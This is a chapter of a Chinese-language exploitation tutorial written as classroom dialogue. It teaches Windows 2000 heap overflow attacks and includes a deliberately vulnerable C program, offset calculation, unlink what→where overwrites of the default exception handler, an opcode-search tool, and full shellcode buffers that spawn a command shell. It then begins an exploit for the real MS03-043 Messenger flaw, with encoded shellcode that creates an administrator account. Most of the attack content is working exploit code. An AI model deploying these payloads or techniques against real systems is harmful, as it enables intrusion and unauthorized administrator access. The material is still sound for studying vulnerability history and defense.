HeapWalk 枚举堆对象的所有内存块

GetProcessHeap 取得进程的默认堆对象

GetProcessHeaps 取得进程所有的堆对象

“以上都是用户态的函数，最终都要调用 ntdll 里面的 Rtl 相关核心函数。比如，堆分配函数的关系如图 4－2。所以，我们只用考虑 RtlAllocateHeap 的就行了。”


“最好的学习方法是类比或对比。如果之前对新知识的相关背景有所了解，那学习起来会很快上手，而且很多思想和方法都可借鉴以前的东西。”老师问道，“大家觉得该和什么知识对比呢？”

“当然是和堆栈溢出相对比罗！”玉波没好气的说，“其他的溢出还不知道呢！”

# 4.2 RtlAllcoateHeap 的失误

## 4.2 RtlAllcoateHeap 的失误

“呵呵，对！”老师说道，“我们和 Windows 下的堆栈溢出相对比。我们先复习一下堆栈溢出利用的三大步骤。”

1.返回点的定位。利用报错精确定位溢出返回点。

2.ShellCode 的编写。我们可以自己写，也可以拿现成的用；比较科学的方法是稍微修改一下外面的代码，完成我们想要的功能。

3.跳转到 ShellCode。把函数返回点覆盖成 JMP ESP 的地址，或者把异常处理点覆盖成 CALL EBX 或者 pop pop ret 的地址。

“其示意图如图 4－3，也可以是图 4－4 的样子。”


“这三点大家都还记得吧？”老师问。

“嗯，当然！”

“好，我们就从这三点出发，看看堆溢出的原理和利用吧！”

# 4.2.1 有问题的例子

### 4.2.1 有问题的例子

“我们看一个简单的有堆溢出问题的程序 heapvul1.c（光盘有收录）。”

```
　　#include <windows.h>
　　#include <stdio.h>
　　#include <stdlib.h>
　　char mybuf[] = "ww0830";
　　int main (int argc, char *argv[])
　　{
　　 HANDLE hHeap;
　　 char *buf1, *buf2;
　　 //我们自己建立一个 HEAP
　　 hHeap = HeapCreate(HEAP_GENERATE_EXCEPTIONS, 0x10000, 0xfffff);
　　printf("mybuf addr = %p\n",mybuf);
　　 //动态分配 buf1
　　buf1 = HeapAlloc(hHeap, 0, 200);
　　 strcpy(buf1,mybuf);
　　 printf("buf1 = %s\n",buf1);
　　 //动态分配 buf2
　　 buf2 = HeapAlloc(hHeap, 0, 16);
　　 HeapFree(hHeap, 0, buf1);
　　 HeapFree(hHeap, 0, buf2);
　　 return 0;
　　}
```

“我给大家大致解释一下：”

“hHeap = HeapCreate(HEAP_GENERATE_EXCEPTIONS, 0x10000, 0xfffff);”是建立一个堆，以免破坏进程默认 HEAP；

“`buf1 = HeapAlloc(hHeap, 0, 200);`”是动态分配 200 字节的 buf1；

“`strcpy(buf1,mybuf);`”是把 mybuf 数组的内容拷贝给 buf1；

“`buf2 = HeapAlloc(hHeap, 0, 16);`”表示接着分配 buf2；

“`HeapFree(hHeap, 0, buf1); HeapFree(hHeap, 0, buf2);`”表示最后把 buf1 和 buf2 释放掉后就退出。

“我们执行一下试试，使用 VC 的 RELEASE 方式编译，并在命令行下运行，程序就会打印出 mybuf 地址和 buf1 内容，然后退出。”

小知识：

在 VC 下可以生成 DEBUG 版本和 RELEASE 版本程序。DEBUG 版被称为调试版，RELEASE 版被称为发布版。DEBUG 版程序中，会有一些用于调试的信息，所以会比 RELEASE 版程序大很多；而且有一些内部处理和分配过程，比如堆的分配，两者也不同。

“DEBUG 版的程序与实际运行程序的内存结构是不同的，所以刚才那个程序要用 VC 按照 RELEASE 方式编译，并在命令行下运行它，不要在 MSDEV 中调试运行。”

“在 VC 下生成 RELEASE 版的方法是：选择菜单栏‘编译’→‘放置可远程配置’，然后在弹出的‘活动工程配置’中选择‘Win32 RELEASE’，这样，生成的程序就会在 Release 目录下，并且是发布版本。”

“也可以在工具栏的‘Select Active Configurature’框中直接选择生成 Release 版，如图 4－5。”


“在 mybuf 数组很小的时候，程序没有任何问题，我们稍微改变下程序，只是加长 mybuf 的长度，变为 240 个 A，具体代码参看 heapvul2.c（光盘有收录）。”

“我们重新生成 RELEASE 版的程序，在命令行下运行它。效果如图 4－6。”


“哦！出现报错对话框了！”大家说道！

“内容为 "0x77fcb3f5"指令引用的"0x41414141"内存。该内存不能为"written" 。‘0x41’就是大写字母 A 的 16 进制码。”

“不过这里报的是‘written’错误啊！莫非和 Foxmail 一样，覆盖的字符串太长了？”古风疑惑的问道。

“不，堆溢出要的就是这样的效果。”老师说道，“我们下面借鉴一下堆栈溢出编程的三个步骤！”

# 4.2.2 堆溢出点的定位

### 4.2.2 堆溢出点的定位

“ 第一步、溢出点的定位 。因为这里会出现报错对话框，所以我们可利用它很准确的得到溢出点的位置。如果记不清楚，请复习一下以前的内容，这里大概过一遍。”

“首先改变程序，把 mybuf 数组填充的方法改变一下，改变的程序为 heapvul3.c（光盘有收录）。我们把 mybuf 数组的填充方法替换为：”

```
for(i=0; i<240; i++)
{
    mybuf[i] = 100 + i % 10;
}
```

“重新生成程序并在命令行下执行，这次报错框成了 "0x77fcb3f5"指令引用的"0x69686766"内容，该内存不能为"written" ，如图 4－7。”


“我们记下这个数字，看来是‘0x69686766’覆盖到了溢出点。我们把 mybuf[i] = 100 + i % 10 的取余数改为整除，得到程序 heapvul4.c（光盘有收录）。”

```
for(i=0; i<240; i++)
{
    mybuf[i] = 100 + i / 10;
}
```

“执行 heapvul4，这次出现的错误框成了 "0x77fcb3f5"指令引用的"0x79797979"内容，该内存不能为"written" ，如图 4－8。”


“我们分析一下这两个过程。第一次是把 mybuf 数组不停的加上 100～109，即十六进制 0x64～0x6D 的循环；第二次则是以 10 为一段长度，每段分别以 0x64、0x65……来填充 mybuf。”

“第一次溢出时，报错值是 0x66，此时数组中只有 0x64～0x6D 不断循环，所以我们可以推出尾数是 0x66－0x64 = 2。”

“第二次溢出时，报错的全部是 0x79，而此时是从 0x64 开始，每 10 个数为一段。0x79－0x64＝0x15（十进制的 21），即在字符串的第 21 个段。”

“我们可以计算出出错点的位置了，如下：”

```
（0x79－0x64）×10＋（0x66－0x64）＝21×10＋2＝212
```

“大家验证一下，指定 mybuf 第 212 开始的四个字节是‘BBBB’，其余全部为‘A’。如果我们的计算正确，那么应该是 0x42（B 的十六进制）覆盖到溢出点。”

```
for(i=0; i<240; i++)
{
    mybuf[i] = 'A';
}
mybuf[212] = 'B';
mybuf[213] = 'B';
mybuf[214] = 'B';
mybuf[215] = 'B';
```

“好，这样修改后，执行该程序（heapvul5.c，光盘有收录），大家看！”


“哇！果然弹出的对话框成了 "0x77fcc39e"指令引用的"0x42424242"内容，该内存不能为 written 。我们的计算非常正确哦！”大家说。

“我们分配的 buf1 是 200 个字节，溢出点却是第 212 个字节，看起来有点奇怪吧！”老师说。

“是啊，怎么会是这个数字呢？”大家都很奇怪。

“不要紧，分析之后就清楚了。我们还是先按步骤继续吧！”

# 4.2.3 ShellCode 的特殊要求

### 4.2.3 ShellCode 的特殊要求

“ 第二步、ShellCode 的编写 。我们已经详细解释过了，但堆溢出的 ShellCode 有特殊的要求。

（1）如果溢出的是默认堆，则不能使用网络相关的函数，比如开端口、反连等 ShellCode 都不能使用；

（2）可以想办法在 ShellCode 中恢复默认堆，然后再使用网络相关 ShellCode，但有时恢复堆后仍不能用网络编程的函数；

（3）新建一个堆，不用默认堆；

（4）干脆就不用网络相关的 ShellCode，只用添加用户一类的 ShellCode。”

“可以看出，堆利用比较麻烦，在 ShellCode 中恢复堆这类高级技巧会在 ShellCode 高级编程中提到。这里就用最简单的手段——打开 DOS 窗口。”

“倒……”台下全晕了，“又开 DOS 窗口啊！”

“这里只是为了说明方法，以后用复杂可行的 ShellCode 替换就行了。”

# 4.2.4 跳转到 ShellCode

### 4.2.4 跳转到 ShellCode

“ 第三步，跳转到 ShellCode 。”

“这里是关键！和堆栈一样，涉及到系统内部的处理机制了。”

“ `buf1 = HeapAlloc(hHeap, 0, 200)` ，程序动态分配 200 字节的 buf1，堆结构如图 4－10。”


“先是 8 字节‘buf1’的管理结构，该结构对用户是不可见的；然后是系统返回给我们能实际操作的 200 字节的空间，‘buf1’就是从这儿开始的；接着是 8 字节的下一空闲堆的管理结构；最后是两个双链表指针，各 4 个字节共 8 个字节。”

老师歇了一口气，说：“最后的两个双链表指针才是真正的关键。我们用超长字符串覆盖‘buf1’的时候，其溢出后的结构如图 4－11。”


“特别的，当用其他字符为 A、第 212 字节为 B 覆盖时，其结构如图 4－12。”


“200+8+4=212，这就是我们计算得到溢出点为 212 字节的原因。我们把结构最后的双链表指针覆盖了，那系统要使用它们时当然会不正确，会出错――这就是要出现报错对话框的原因。”

“哦！212 的位置是这样得到的啊！”大家恍然大悟。

“报的是 write 错误，莫非是要往后一个地址写东西？”宇强不解地说。

“对！当程序分配‘buf2’的时候，就要使用那两个双链表指针了，且 eax 为前一指针的值，而 ecx 为后一指针的值，并作如下操作： mov?[ecx],eax; mov [eax+4], ecx ，该操作的目的是在分配内存时改变链表的指向。”

“对刚才的程序来讲，在我们在最后一次覆盖时，其结构和指针被覆盖为图 4－13 的的样子。”


“当系统重新分配‘buf2’，执行到 mov?[ecx],eax 时，就等于执行 mov [BBBB],AAAA 。即 mov[0x42424242],0x41414141 ，就是把 0x41414141 写入到 0x42424242 地址的内存中， 而地址 0x42424242 一般是不能写的，所以就会报 0x42424242 不能写的错误。”

“哦！原来是这样。”

“出错时程序就会终止，如果还要执行下一操作 mov [eax+4], ecx ，就等于 mov [AAAA+4],BBBB ，即 mov [0x41414145]，0x42424242 了，就是把 0x42424242 写入到 0x41414145 的地址中，通常也是会出错的。”

“把这个过程抽象出来，系统中有 what→where 的操作，而我们可以把 what 和 where 覆盖成任意的值。当 where 像上面一样是个随意的值时，会出现写错误。那我们怎样精心构造 where 和 what，使系统能跳转到我们想要的地方——ShellCode 呢？”

老师端起杯子，悠闲的说：“大家先自己想想，讨论一下各自的想法，就我一人讲，可能大家都会听困的。”

“就是有 what→where 的操作，what 和 where 该改写成什么呢？”老师再提示道。

古风想了想，说：“可以像堆栈溢出利用一样，覆盖函数的返回点。因为有 what→where 的操作可把 what 的值构造成 ShellCode 的地址，把 where 的值构造成某个函数返回点的地址，这样执行 what→where 时，就可以用 ShellCode 的地址覆盖函数返回点的值，函数返回的时候我们的 ShellCode 就可以执行了。如图 4－14。”


老师说：“不错，是个很好的方法，还有想法吗？”

宇强灵机一动，悄声的对小倩说：“既然可以覆盖函数的返回点，那好像也可以覆盖函数入口点的地方哦？”

小倩想了想：“嗯，是啊，应该可以！”

于是宇强大声说道：“我们也可以把 ecx 的值构造成某个函数入口点的地址，这样，执行那个函数时，就执行我们的 ShellCode 了。当系统后面要调用那个函数时，其实就执行了我们的 ShellCode。如图 4－15。”


老师非常满意的说：“Very Good！堆溢出向来以通用性困难著称。各个能利用的漏洞都有独特的利用方法，上述两种方法都曾在实际中使用过。”

“在这里我再介绍一种比较基础的方法，覆盖默认异常处理的地址。”

# 4.2.5 覆盖默认异常处理

### 4.2.5 覆盖默认异常处理

“在堆栈溢出中已经讲过，SEH (Windows 的结构化异常处理)是一种程序异常的处理机制，在 Windows 系统中，是按照链式层状结构组织的，如图 4－16。”


“发生异常时，操作系统就会查找异常处理链表，找对应这种异常的处理程序；找到了对应的处理程序后，就去执行处理程序，以避免系统崩溃。”

“嗯，的确讲过。”大家都点点头。

“具体的说，其异常处理过程是：先找到 fs:[0]中所包含的地址，这个地址存着上一层异常链指针，而在这个地址+4 的地方存放着处理函数的地址，操作系统就自动跳到这个地址去执行异常处理函数。当这个函数无法对异常进行处理时，再根据上一层的异常链指针找到上一层的异常处理指针来处理。”

“上次堆栈溢出的时候，我们覆盖的是 fs:[0]，这里堆溢出也可以这样吗？”宇强插话问道。

“非常好！的确可以！覆盖的形式是这样的，如图 4－17。”


“但是，”老师话锋一转，“这里的 where 需要是一个确切的地址值，fs:[0]对于单线程是比较固定的，但对于多线程却是不定的。”

“大家回想一下，我们在堆栈溢出中覆盖 fs:[0]时，用的都是相对地址，从来没有使用过绝对地址。堆栈溢出中，覆盖 SEH 和跳转到 ShellCode 的示意图如图 4－18。”


“我们把第一个异常处理程序地址覆盖成 CALL EBX 的地址。当异常发生时，就执行该地址内容——CALL EBX，而 EBX 正好在前面 4 个字节，我们把它改为 JMP 04 就可跳入 ShellCode 中了。”老师又解释了一遍。

“哦！我们当时只是知道 fs:[0]离缓冲区有多远，要多少个无用字符填充才能到达，但的确不知道当时的 fs:[0]究竟是多少啊！”大家说道。

“对！这里需要的是确切地址！用 fs:[0]有时可以，有时就不行。”老师说。

“那怎么办呢？即使每次运行同一个程序，fs:[0]好像都要变啊！”同学们又疑惑了。

“呵呵，fs:[0]地址会变，但系统的默认异常处理函数却不会变！我们就使用它。”老师说道。

小知识：默认异常处理

当链表中所有的异常处理函数都无法处理异常时，系统就会使用默认异常处理指针来处理异常情况。

默认异常处理指针通过如下函数来设置：

```
SetUnhandledExceptionFilter(??LPTOP_LEVEL_EXCEPTION_FILTER lpTopLevelExceptionFilter)
```

默认异常处理指针通过如下函数来调用：

```
LONG UnhandledExceptionFilter(STRUCT _EXCEPTION_POINTERS *ExceptionInfo);
```

它负责显示一个错误对话框，来指出出错的原因，这就是我们一般的程序出错时显示错误对话框的原因。

“我们一起来看看吧！”老师说道，“用 IDA 打开 kernel32 分析，在 Functions 中选中‘SetUnhandledExceptionFilter’就会跳到如图 4－19 的代码。意思是把异常处理程序地址放入 0x77EB63B4 中，即 Win2000 SP3 默认异常的处理指针是 0x77EC044c。”


“当有不能处理的异常发生时，系统调用 UnhandledExceptionFilter 函数，它其实就是 call [0x77EC044c]，即执行 0x77EC044c 指向的异常处理程序，那我们可以……”

“哦！我们可以把 where 赋成 0x77EC044c！”

“对！我们把 where 覆盖成 0x77EC044c，what 覆盖成 ShellCode 的地址，如图 4－20。”


“那执行了 mov[ecx],eax 后，0x77EC044c 里就是我们 ShellCode 的地址。当发生异常时，系统会执行 call [0x77EC044c] ，当然就跳到我们的 ShellCode 中了。”

“Yeah！可以跳转了！”全班同学都很高兴。

“注意，这里有个小问题， mov[ecx],eax 后，跟着还有一句 mov [eax＋4], ecx ，这样不但把 shellcode 地址写进默认异常处理地址中，也会把默认异常处理地址写进[shellcode 地址+4]的内存单元当中，把 Shellcode 中的指令破坏了。”

“就是啊……”

“要解决这个问题，我们可以用 JMP 6 这样的指令来代替 nop，这样就能跳过后面被破坏的字节。”

“现在回到我们的程序中，把它合起来吧！”老师说道，“先是 208 字节覆盖掉‘buf1’的空间和空堆的管理结构；然后是 4 字节 ShellCode 的地址，最后是 4 字节异常处理地址。如图 4－21。”


“但这里的 ShellCode 的地址是多少呢？”宇强问道。

“问得好！”老师说，“我们先把 ShellCode 保存在‘mybuf’里面，所以直接把‘mybuf’的地址读出来填入即可。”

“哎哟！‘mybuf’是数组，那地址还是会变，还是不通用啊！”大家觉得很奇怪。

“嗯，这样做的确不通用，后面我们会改进的，这里先试试效果！”老师说道，“构造出来的‘mybuf’是这样的：”

```
char mybuf[240] = 
    "\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90" //Jmp 06 和 NOPS 共 101 bytes
    //下面是开 DOS 窗口的 ShellCode，有 107 字节
    "\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
    "\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
    "\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
    "\x64\x9f\xE6\x77" //SP3 loadlibrary 地址 0x77e69f64
    "\x52\x8D\x45\xF4\x50" 
    "\xFF\x55\xF0"
    "\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E" 
    "\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4" 
    "\x50\xB8"
    "\xc3\xaf\x01\x78" //sp3 system 地址 0x7801afc3
    "\xFF\xD0" 
    //上面一共 208 字节， 接下来就是 ShellCode 地址和顶层异常处理地址
    "\x40\x60\x40\xFF\x4c\x04\xec\x77"
```

“运行报错，如图 4－22。可以看到‘mybuf’的地址是 0x00422A40，所以我们要把 ShellCode 的地址（即 What 的位置）赋成它。”


“注意啊！‘mybuf’的地址是有 00 的，strcpy 拷贝字符串时就会被截断。所以我们先赋成 ff，在 main 里面拷贝完成后，再把 ff 改回 00。大家参看程序 heapvul1Exp.c（光盘有收录）。编译并执行，弹出了一个 DOS 对话框，如图 4－23。”

 “哦！成功了!”

“虽然这个 exp 很简陋，但也是实际可用的雏形。我们继续讨论，改进利用方式！”

小知识：0x00 和截断问题

关于 ShellCode 中含有 0x00，并不是赋值时被截断，赋的值都会在内存里面。比如字符串 0x0102000304，都会存进去；但在 C 语言中，字符串结束的标志是 0x00，所以像使用 strcpy 函数时，就只拷贝到 0x010200 就结束，不会拷贝后面的 0304；而改成 memcpy 直接拷贝内存字符串长度，就不会被 00 截断，网络传输时，像 send 函数也是发送指定长度的字符串，不会被 00 截断。

# 4.2.6 定位的改进——call [esi+0x4c]

### 4.2.6 定位的改进——call [esi+0x4c]

老师小结了一下：“默认异常处理地址在 Win2000 SP3 下是 0x77ec044c。但在不同系统、不同 SP 下，其值是不一样的。我们可像刚才一样，用 IDA 反汇编 kernel32.dll 分析，但很麻烦；也可用 isno 写的 GetTopSeh.c 来获得默认异常处理地址，程序如下，我加上了一些注释。”

```
#include <stdio.h> 
#include <windows.h> 
void main() 
{ 
　　unsigned int sehaddr; 
　　int *un; 
　　HMODULE hk = LoadLibrary("KERNEL32.dll"); 
　　un = (int *)GetProcAddress(hk,"SetUnhandledExceptionFilter"); 
    //找到 SetUnhandledExceptionFilter 函数的地址
　　_asm{ 
        mov eax,un 
        add eax,5
        mov ebx,[eax]?
        mov sehaddr,ebx //函数开始的第 5 个字节就是默认异常处理地址。
    } 
    printf("the top seh: 0x%x\r\n",sehaddr); //将默认异常处理地址打印出来
    _getch();
    return;
}
```

“对比 IDA 里面的代码，应该很容易理解，程序是读出 SetUnhandledExceptionFilter 函数开始后第 5 个字节的内容，即异常处理指针的存放位置，然后打印出来。执行效果如图 4－24，在我的 Win2000 SP3 机器上，默认异常处理地址是 0x77ec044c。”


“有了这个方便多了！”大家说道，“我们可把所有系统的默认异常处理地址都读出来，然后存储起来供以后使用。”

“但是……”古风问道：“where 是可以正确确定了，但 what 呢？还是不能确定啊！”

“对！刚才 ShellCode 的地址是在主程序里直接读出来的，虽然我们可用 NOP 暴力扩大 ShellCode 的范围，但通用性始终不好。我们将它改进一下吧！”老师说道。

“怎么改进呢？有什么东西指向堆的数据吗？”古颇感兴趣。

“呵呵，Windows 2000 作顶层异常处理时，esi+0x4C 正好指向下一个堆管理结构，如图 4－25。大家想想，怎么做可以改进定位呢？”


大家个个眉头紧蹙。

“哦！”宇强一下叫了出来，“我们把 what 覆盖成 call [esi＋0x4c] 的地址。这样异常发生时，系统就会执行 call [esi＋0x4c] ，从而到达下一个空闲堆的管理结构中。在那里，我们放上 JMP 0F 指令，就可跳过后面的 what 和 where，最后到达 ShellCode。”

“呵呵，很好，上来画一下示意图吧！”老师鼓励道。

宇强走上讲台，拿起粉笔，画出了图 4－26 所示的利用思路。


“首先覆盖 what 为 call [esi＋0x4c] 的地址，where 为默认异常处理的地址 0x77EC044C，” 宇强边画边解释，“这样 wha→where 操作时，0x77EC044C 就会被覆盖成 call [esi＋0x4c] 的地址；如果发生顶层异常处理，就会跳到 call [esi+0x4c] 指令的地方；一执行 call [esi+0x4c] 就到了我们能操控数据的位置。”

“嗯！就是这样！”大家都很赞同宇强的的说法。

“但有个地方还不明白，什么时候会发生默认异常处理呢？”宇强从台上下来时问。

“很好！”老师说道，“大家都要向宇强学习啊！要敢于表达自己的思想，也要敢于提出自己的问题！只有经过思考，大家的思维才能得到锻炼和提高。”

“而发生异常处理的时间，是 what→where 后，有一个 where→what+4 的操作，如果保证 what+4 的地址不可写，那就可以引发顶层异常处理了。”

“哦，这下思路清楚了。”古风一下子明白了。

“我们赶紧合起来利用吧！”同学们都迫不及待。

“但是，” 老师提醒道，“大家发现没有， call [esi+0x4C] 的地址是多少呢？我们还没有呢！”

“对啊！ call [esi+0x4C] 的地址还没找呢！”

“我们可把查找 JMP ESP 的程序 FindJmpEsp.cpp 稍微改进一下，让它可以找其他指令。我们先找到 call [esi+0x4C] 的机器码是什么，然后在各个 dll 中找这样的机器码。”老师说。

“首先，我们写一个简单的嵌套汇编的程序，如下：”

```
　　 __asm
　　{
　　    call [esi+0x4C]
　　}
```

“和前几节课的方法一样，我们在 VC 中按 F10 调试，再点‘Debug’工具栏中的‘Dissassble’按钮，然后点鼠标右键，在弹出菜单中选中‘code byte’，此时会出现 call [esi+0x4C] 的机器码了。如图 4－27。”

　　

“这下我们知道了 call [esi+0x4C] 的机器码是 FF 56 4C，我们把 FindJmpEsp.cpp 改成在 dll 中找机器码 FF 56 4C 的程序（FindCallEsi4C.cpp），如下：”

```
　　#include<iostream.h>
　　#include<windows.h>
　　int main(int argc, char ** argv)
　　{
　　    bool we_loaded_it = false; 
　　    HINSTANCE h; 
　　    TCHAR dllname[] = "User32"; //默认查找 user32.dll 里面的指令 
　　    if(argc>1) 
　   　 { 
　      　 strcpy(dllname,argv[1]); 
　　    } 
　　    h = GetModuleHandle(dllname); 
　　    if(h == NULL) 
　   　 { 
　　        h = LoadLibrary(dllname); //加载 dll
　   　 if(h == NULL) 
　　 { 
　　        cout<<"ERROR LOADING DLL: "<<dllname<<endl; 
　　        return 1; 
　　    } 
　　       we_loaded_it = true; 
　   　 }
　　    BYTE* ptr = (BYTE*)h; 
　　    bool done = false; 
　　    for(int y = 0;!done;y++) //在 dll 中查找 FF 56 4c 并打印
　　    { 
　　       try 
　　       { 
　　       if(ptr[y] == 0xFF && ptr[y+1] == 0x56 && ptr[y+2] == 0x4c ) 
　　       { 
　　           int pos = (int)ptr + y; 
　　           cout<<"OPCODE found at 0x"<<hex<<pos<<endl; 
　　       } 
　　       } 
　　 catch(...) 
　　 { 
　　     cout<<"END OF "<<dllname<<" MEMORY REACHED"<<endl; 
　　     done = true; 
　　 } 
　　 } 
　　 if(we_loaded_it) FreeLibrary(h); //释放 dll
　　 return 0;
　　}
```

“这个程序如果不带参数，默认在 user32.dll 中查找机器码；也可将要查找的 dll 名作为参数运行。在 VC 环境下，设置程序的参数步骤如下：先点击‘工程→设置’（图 4－28）。”

 “然后在工程设置对话框中选择‘Debug’栏，在‘程序变量’一栏填写要查找的 dll 名称，这里我们还是填成 user32.dll（图 4－29）。”


“设置好后，编译、运行，我们可以看到，在 user32.dll 中找到了一个，地址是 0x77e2f91f。如图 4－30。”

　　

“哦！这下可以得到构造字符串的示意图了。”同学们画下了图 4－31。


“嗯，下面我们就按照这个图构造出数组‘mybuf’，以实现覆盖，如下：”老师说道。

```
char mybuf[450] = 
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" //上面先用 200 字节填充“buf1”
　　"\xeb\x12\x90\x90\x90\x90\x90\x90" //8 字节堆管理结构，eb 12 跳过 what 和 where
　　"\x1f\xf9\xe2\x77" //覆盖 what，call[esi+0x4c]在 user32 中的地址
　　"\x4c\x04\xec\x77" //覆盖 where，TOP SEH 在 2000 中文 SP3 的地址
　　//下面是 Win2000 SP3 下开 DOS 窗口的 ShellCode，参看第二章
　　"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
　　"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
　　"\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
　　"\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
　　"\x64\x9f\xE6\x77" //SP3 loadlibrary 地址 0x77e69f64
　　"\x52\x8D\x45\xF4\x50" 
　　"\xFF\x55\xF0"
　　"\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E" 
　　"\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4" 
　　"\x50\xB8"
　　"\xc3\xaf\x01\x78" //SP3 system 地址 0x7801afc3
　　"\xFF\xD0";
```

“大家注意，我们找的 call [esi+0x4C] 的指令地址是在 user32.dll 里面，所以要先 LoadLibrary(“user32”)，以保证加载了 user32.dll 动态链接库，具体利用程序参看 vul1Callesi.c（光盘有收录）。编译、执行，还是弹出了一个 DOS 对话框！如图 4－32。”

 “也成功了！”大家都非常高兴。

“好，明白了堆溢出利用的原理，我们来尝试一个真正的漏洞吧！”

# 4.3 实例——Message 堆溢出漏洞的利用

## 4.3 实例——Message 堆溢出漏洞的利用

“我们来看一个现实中真正的堆溢出漏洞——Windows Message 堆溢出漏洞。其漏洞公告 MS03－043 如图 4－33。”老师说道，“大家先仔细看看。”


# 4.3.1 溢出点的定位

### 4.3.1 溢出点的定位

“Messenger 服务是一个 Windows 服务，它传送 net send 消息。在 CMD 控制台下，我们执行 net send 对方计算机名 消息 ，对方就会弹出一个信使服务对话框，显示我们传递给它的消息内容。如图 4－34。”

“哦，这种消息传送的方法，比不上 QQ、MSN，有什么用呢？”大家问道。

“Windows Message 服务除了用于用户间发送消息、管理员向用户发送管理警报外，也可用作事件通知，比如当打印作业完成或计算机断电而切换到 UPS 时，自动使用 Message 通知用户。”

“哦，原来可以和其他程序联动啊！”大家都明白了。


“是的。我们从图 3－34 的信使服务对话框中可以看出，传送的 Message 包括发送方计算机名、接收方计算机名、时间和消息。”

“确切的说，Message 数据包的结构如图 4－35。它是通过 NetBIOS（即 137－139 端口或 UDP 的 135 端口）传输的。”


“有了 Message 结构和前面网络编程的基础，我们完全可写出一个程序来完成 net send 正常传送消息的功能。”老师说道，“但我们要更进一步，不仅要能正常传送，还要使其溢出！”

“哦？是哪部分发生了溢出呢？时间部分？还是机器名部分？”大家猜测道。

“呵呵，微软的公告上都说了，导致该漏洞的原因是：没有正确的验证长度就把消息传递给缓冲区了。所以消息部分过长后，就可以导致堆溢出！”

“哦，是这样啊！”

“明白了溢出的原因后，我们就可以先搭一个框架，然后根据别人的漏洞分析（或者利用前面的方法）定位溢出点。”老师在黑板上画了起来，“我们可以得到：是消息的 2263 个字节达到了下一个堆管理结构，接下来就是两个要改写的操作指针，如图 4－36。”


“哦！和前面的堆溢出分析果然一模一样啊！”同学们感叹道。

“是的，我们继续按照经典的三步走，完成攻击。”

# 4.3.2 通用和编码 ShellCode 初接触

### 4.3.2 通用和编码 ShellCode 初接触

“定位了溢出点，下一步就是 ShellCode 的编写。”

“前几次课，我们对 ShellCode 的编写进行了详细讲解，这里就使用现成的添加用户的 ShellCode 吧！功能是添加一个名为‘X’的用户，并加入到管理组中。”

```
unsigned char ShellCode[] = // XorDecode 
    "\xEB\x10\x5A\x4A\x33\xC9\x66\xB9\x3E\x01\x80\x34\x0A\x96\xE2\xFA" 
    "\xEB\x05\xE8\xEB\xFF\xFF\xFF"
    // AddUser:X Pass:X
    "\xf0\x17\x7a\x16\x96\x1f\x70\x7e\x21\x96\x96\x96\x1f\x90\x1f\x55"
    "\xc5\xfe\xe8\x4e\x74\xe5\x7e\x2b\x96\x96\x96\x1f\xd0\x9a\xc5\xfe"
    "\x18\xd8\x98\x7a\x7e\x39\x96\x96\x96\x1f\xd0\x9e\xa7\x4d\xc5\xfe"
    "\xe6\xff\xa5\xa4\xfe\xf8\xf3\xe2\xf7\xc2\x69\x46\x1f\xd0\x92\x1f"
    "\x55\xc5\xfe\xc8\x49\xea\x5b\x7e\x1a\x96\x96\x96\x1f\xd0\x86\xc5"
    "\xfe\x41\xab\x9a\x55\x7e\xe8\x96\x96\x96\x1f\xd0\x82\xa7\x56\xa7"
